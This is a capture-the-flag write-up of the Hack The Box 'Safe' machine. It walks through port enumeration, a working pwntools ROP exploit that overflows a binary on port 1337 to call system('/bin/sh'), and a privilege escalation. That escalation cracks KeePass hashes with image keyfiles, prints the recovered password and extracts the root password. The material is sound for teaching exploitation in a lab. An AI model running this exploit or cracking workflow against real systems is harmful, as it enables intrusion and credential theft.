

# Hack The Box: Safe machine write-up

Safe is an easy-rated machine which, from my perspective, would be true for people into binary exploitation. The box starts with a vulnerable binary that can be downloaded through a default apache page. The way to exploit it is through a buffer overflow and return-oriented programming (ROP). Then, we can get a shell and find some images in the main user directory, alongside a keepass 2 database. The images can be used in `keepass2john` as key files to generate 6 distinct hashes and then one of them can be craacked with John The Ripper, giving us access to the database which contains the root password. Simple!

Let's dig in! The IP of the machine is ``10.10.10.147`` and, as always, I included it in my ``/etc/hosts`` file as `safe.htb`.

### Enumeration

I start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Sun Jul 28 19:28:55 2019 as: nmap -sV -sC -oN nmap/initial safe.htb
Nmap scan report for safe.htb (10.10.10.147)
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 28 19:29:04 2019 -- 1 IP address (1 host up) scanned in 9.48 seconds
```

Okay so not too much, just SSH and a web server over HTTP.

#### Port 80 enumeration

Upon visiting the webpage we are welcome with a default apache page. However, upon inspection of the source code we find something unusual:

*Weird comment on the source code*


We can therefore access `http://safe.htb/myapp` and download the file, which turns out to be a binary:

*File downloaded*


I ran the binary and found that it didn't do much, it just echo'ed back whatever the input was, so I moved on to the other port.

#### Port 1337 enumeration

Connecting with netcat to the port prompts us with the same thing as the binary, so by the message from the source code it's the same.

*Port 1337 response*


Not having found much, I assumed the box started with an exploitation of the binary so I moved it to my local box and started analysing it.

#### Getting user: binary exploitation

Entering different payloads to check if there are any string format vulns or any other things yields no result so I ran checksec to have a look at the binary:

*Checksec output*


Some things to remember: stack is has the NoExecutable flag, so we can't just input shellcode and jump to it to get a shell and PIE is disabled, which means the addresses extracted from the binary we downloaded are the same as in the server. This will be useful later on.

Then I fired up ghidra and disassembled the code:

*Ghidra output*


Okay, so it's clear the vulnerability we have is a buffer overflow. Now, looking at the imports we can see that `system` is already provided to us, so we can call it, given that PIE is disabled. I then looked for the `/bin/sh` string on the binary, given that we want to call system with that as an argument to pop a shell. However, no string was found. At this point, the attack plan seemed laid out:

1. Find a writeable and readable address.
2. Put the `/bin/sh` string into memory.
3. Call `system` with `/bin/sh` as argument.

##### 1. Getting the address

For the first part of the plan I just ran `iS` on radare2 to get the different memory addresses and sizes:

*Getting memory segments permissions with radare*


We can choose any `rw` location we can want, I chose `.data`, with address `0x00404038`.

##### 2. Writing the string

Now, to write the string to memory I looked for `mov` gadgets using ROPGadget, but I found nothing useful. Then I understood, I could just call `gets` with the address I had found earlier, as that would write whatever the input was to that address.

As this is a 64-bit binary we need to remember that the arguments to functions get passed in registers, being the first one `rdi`, so the way to get the string to memory is: pop rdi + address of destination of gets + gets. We can get the `pop rdi` gadget using ROPGadget:

*Getting the gadget with ROPGadget*



Good! We've got the gadget: `0x40120b` (I got rid of the leading zeroes because later we will pack everything to 64 bits).

##### 3. Calling system

This was by far the easiest part, I just needed to pop the address where `/bin/sh` had been written before into `rdi` and then call `system`.

##### Putting everything together

So far we have the address where we want to store the string and the pop rdi gadget, we just need to calculate the offset at which the overflow occurs and get the addresses of `system` and `gets`.

There are many tools to find the offset, I just used python to calculate it and obtained that the offset was 120. Therefore, the payload would start with 120 characters of junk.

Then, to get the addresses of the functions we can just run `info functions` on gdb to get them:

*Getting the functions addresses*


Finally we can craft our payload with python's pwntools library, which makes everything much easier:

```py
import binascii
from pwn import *

context(os="linux", arch="amd64")

p = remote("safe.htb", 1337)

junk = "A"*120 # junk

pop_rdi  = p64(0x40120b)
gets     = p64(0x401060)
sys      = p64(0x401040) # can be either this address or the one from main
data_seg = p64(0x404038)

payload = junk
payload += pop_rdi + data_seg + gets
payload += pop_rdi + data_seg + sys

p.recvline()
p.sendline(payload)
p.sendline("/bin/sh")

p.interactive()
```

And after running it we can get a shell as user `user` (really creative) and read `user.txt`:

*Reading the user hash*


#### Privilege escalation

THe privilege escalation was pretty simple, on the main directory of `user` we find six images and a `.kdbx` file, on which we run `file` to get information.

*Initial recon*


So it is a keepass 2.x database... Looking at the binaries on my machine that start with `keepass` I see that there is a `keepass2john`, which apparently can get some hashes from the database. Besides, by doing `--help` to see its usage I see that a keyfile can be provided! Good, one of the images must surely be the key.

*More recon*


I ran six times the command `keepass2john -k IMG_FILE MyPasswords.kdbx` and then saved all of the outputs on a file, renaming the users to know which picture is the right one.

Contents of `hashes.txt`:

```
MyPasswords1:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*17c3509ccfb3f9bf864fca0bfaa9ab137c7fca4729ceed90907899eb50dd88ae
MyPasswords2:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*a22ce4289b755aaebc6d4f1b49f2430abb6163e942ecdd10a4575aefe984d162
MyPasswords3:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*e949722c426b3604b5f2c9c2068c46540a5a2a1c557e66766bab5881f36d93c7
MyPasswords4:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*d86a22408dcbba156ca37e6883030b1a2699f0da5879c82e422c12e78356390f
MyPasswords5:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*facad4962e8f4cb2718c1ff290b5026b7a038ec6de739ee8a8a2dd929c376794
MyPasswords6:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
I then ran John The Ripper to quickly find a password from MyPasswords3: `bullshit`. Now, this is where I spent most of the time, as I tried to su to root with that password but it was getting rejected all the time.

Then I realised maybe that was the password to the database! But how to open it? I found online a python library, `libkeepass`, which supports keepass 2.x reading so I cloned the repo.

*Repo used to get the db contents*


FInally, using a test script I managed to get the db contents!

```py
import libkeepass

filename = "../home/MyPasswords.kdbx"
with libkeepass.open(filename, password='bullshit', keyfile='../home/IMG_0547.JPG') as kdb:
    # print parsed element tree as xml
    print(kdb.pretty_print().decode('unicode_escape'))
```

I read the xml output and found the root password (the string starting with `u3v...yhk`).

*Getting the root password from the database*


Now after running the exploit what I did was generate a rsa key with `ssh-keygen` and append it to `/home/user/.ssh/authorized_keys`. Then, I logged in using SSH with `ssh -i key user@safe.htb` and used `su` with the password!

*Getting to root*


Overall, I think this is a good machine to learn binary exploitation, although maybe I wouldn't rate it as easy for beginners. I hope you found the writeup useful, if you liked it you can give me respect on hackthebox through the following link: <https://www.hackthebox.eu/home/users/profile/31531>.

---

*Diego Bernal Adelantado*
